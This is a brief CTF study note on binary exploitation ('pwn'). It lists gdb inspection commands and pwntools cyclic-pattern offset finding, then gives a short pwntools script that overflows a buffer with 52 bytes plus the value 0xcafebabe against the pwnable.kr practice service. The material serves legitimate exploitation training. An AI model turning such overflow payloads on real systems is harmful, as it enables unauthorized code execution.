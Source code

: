 # CTF note

## PWN


- gdb調用技巧

 - disas main

 - info func
 
 - x $ebp+8

- pwntools
 
 - OFFSET  

	 - cyclib(50)
 
	 - cyclib_find('aa') 

```python
from pwn import *
context(log_level = 'debug')
playload = 'A'*52 + p32(0xcafebabe)
r = remote('pwnable.kr',9000)
#r.recvuntil('overflow me :')
r.send(playload)
r.interactive()
```